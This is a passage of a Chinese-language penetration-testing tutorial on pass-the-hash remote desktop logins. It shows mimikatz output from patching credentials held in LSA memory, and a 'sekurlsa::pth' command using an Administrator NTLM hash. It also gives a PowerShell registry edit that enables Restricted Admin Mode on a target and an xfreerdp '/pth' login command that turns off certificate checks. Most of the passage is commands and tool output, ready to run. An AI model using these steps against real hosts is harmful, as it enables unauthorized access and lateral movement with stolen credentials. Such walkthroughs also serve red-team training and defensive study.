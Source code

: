 ```
  |  LSA Process is now R/W
  |  LUID 0 ; 1535426 (00000000:00176dc2)
  \_ msv1_0   - data copy @ 000002A6FB76A260 : OK !
  \_ kerberos - data copy @ 000002A6FB8DB5A8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000002A6FB6B9768 (32) -> null

mimikatz #
```

此时使用该用户 hash 执行了 `/run:mstsc.exe /restrictedadmin` 命令，在弹出的远程桌面连接窗口，输入目标主机地址进行连接可直接连接上：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/830ee68e23c8d9ea.png)

如果目标的受限管理模式没有被启动，可以使用 mimikatz 进行 PTH：

```
mimikatz.exe "sekurlsa::pth /user:Administrator /domain:172.22.1.2 /ntlm:10cf89a850fb1cdbe6bb432b859164c8 /run:powershell.exe"
```

此时，会弹出一个目标主机的 PowerShell 窗口，在窗口中执行命令修改目标注册表，以启用 Restricted Admin Mode：

```powershell
Enter-PSSession -Computer <Target> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force
```

现在，就可以使用 NTLM hash 进行 RDP 登录了。

### Linux - FreeRDP

安装 [xfreerdp](https://github.com/FreeRDP/FreeRDP)：

```
sudo apt-get update
sudo apt-get install freerdp2-x11
```

命令：

```
xfreerdp /u:John@Domain.com /pth:eec9381b043f098b011be51622282027 /v:xx.xx.xx.xx /cert-ignore /tls-seclevel:0
```

- `/cert-ignore` 禁用证书检查
- `/cert-tofu` 首次连接时信任证书检查
- `/tls-seclevel:0` 在连接旧版本 Windows 操作系统时，该选项会增加兼容性

效果：
